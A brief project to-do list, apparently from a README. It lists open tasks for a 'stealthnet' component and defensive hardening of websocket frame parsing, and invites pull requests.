- [ ] stealthnet: more TODOs in [docs/ext/STEALTHNET.md](docs/ext/STEALTHNET.md#roadmap)!
- [ ] websocket: defensive programming — push anomaly events for unhandled opcodes, review frame parsing for missing checks

PRs welcome.
